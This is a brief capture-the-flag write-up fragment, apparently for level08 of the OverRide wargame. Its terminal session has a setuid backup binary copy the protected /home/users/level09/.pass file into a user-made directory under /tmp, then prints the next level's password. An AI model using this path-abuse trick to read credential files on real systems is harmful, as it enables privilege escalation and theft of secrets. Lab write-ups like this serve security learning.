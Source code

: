 We get the binary out of the Vm using this cmd:

`scp -P 4242 level08@192.168.56.103:./level08 .binary/level08`

```
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cd backups/home/users/level09/
level08@OverRide:/tmp/backups/home/users/level09$ ls
level08@OverRide:/tmp/backups/home/users/level09$ cat .pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```